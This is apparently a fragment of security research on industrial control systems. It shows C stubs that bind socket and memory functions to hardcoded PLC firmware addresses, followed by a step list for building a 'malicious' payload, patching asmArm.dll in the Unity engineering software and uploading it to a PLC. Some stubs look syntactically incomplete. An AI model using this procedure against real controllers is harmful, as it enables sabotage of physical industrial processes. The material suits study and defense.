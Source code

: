 ```c
//0x2014D6FC
void* malloc(uint32_t sz
RETURN_DUMMY

// 0x202053EC
void free(void *ptr)
VOID_DUMMY

//0x201C4240
int socket(int domain, int type, int protocol)
RETURN_DUMMY

//0x201C499C
int setsockopt(int sockfd, int level, int optname,
                      const void *optval, int optlen)
RETURN_DUMMY

//0x201C44CC
int connect(int sockfd, void *addr, int addrlen)
RETURN_DUMMY

//0x201FA770
int close(int fd)
RETURN_DUMMY

//0x201F9090
int read(int fd, void *buf, int count)
RETURN_DUMMY

//0x201F9258
int write(int fd, const void *buf, int count)

//0x2017A96C
uint32_t inet_addr(const char *cp)
RETURN_DUMMY


#undef VOID_DUMMY
#undef RETURN_DUMMY
#undef AT

#endif /*WRAPPER_C*/
```


# Designing the payload

The steps to change the “malicious” payload are as below: 

* Compile the payload
* Patch asmArm.dll
* Copy asmArm.dll into the Unity installation folder
* Launch Unity
* Load the automation project
* Recompile the project
* Set the PLC to stop mode
* Upload the program to the PLC
* Set the PLC to start mode
